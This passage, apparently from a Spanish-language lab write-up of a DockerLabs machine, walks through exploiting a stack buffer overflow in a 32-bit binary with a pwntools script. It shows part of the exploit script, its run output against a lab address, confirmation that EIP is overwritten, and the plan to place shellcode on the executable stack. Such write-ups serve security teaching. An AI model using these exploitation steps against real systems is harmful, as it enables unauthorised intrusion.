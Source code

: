 ```bash
    p = process(context.binary.path)

p.sendlineafter(b'Enter data: ', payload)
p.interactive()
```

Volvemos a ejecutar el binario en **gdb** y cuando este listo escuchando ejecutamos el script para que se conecte a nuestra máquina desde otra consola:

```bash
$ python3 exploit.py 172.17.0.1:20201
[!] Usage: python3 exploit.py [ip:port]
[*] '/home/mur/machines/dockerlabs/insecure/secure_software'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x8048000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
[←] Opening connection to 172.17.0.1 on port 20201: Trying 172.[+] Opening connection to 172.17.0.1 on port 20201: Done
/home/mur/machines/dockerlabs/insecure/exploit.py:16: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendlineafter(b'Enter data: ', payload)
[*] Switching to interactive mode
$
```

Vemos que el script se ha ejecutado correctamente. Ahora nos movemos a **gdb** y ejecutamos `register` para ver que hay en los registros:

![image](/assets/images/insecure/6.png)

Como vemos se ha sobrescrito el registro **$eip** con el caracter B(\x42)

El siguiente paso es ver como desborda la pila para poder mandar nuestro shellcode y lo ejecute. Le añadimos 100 C’s al final del payload y lo volvemos a ejecutar (hay que reiniciar el binario en gdb)
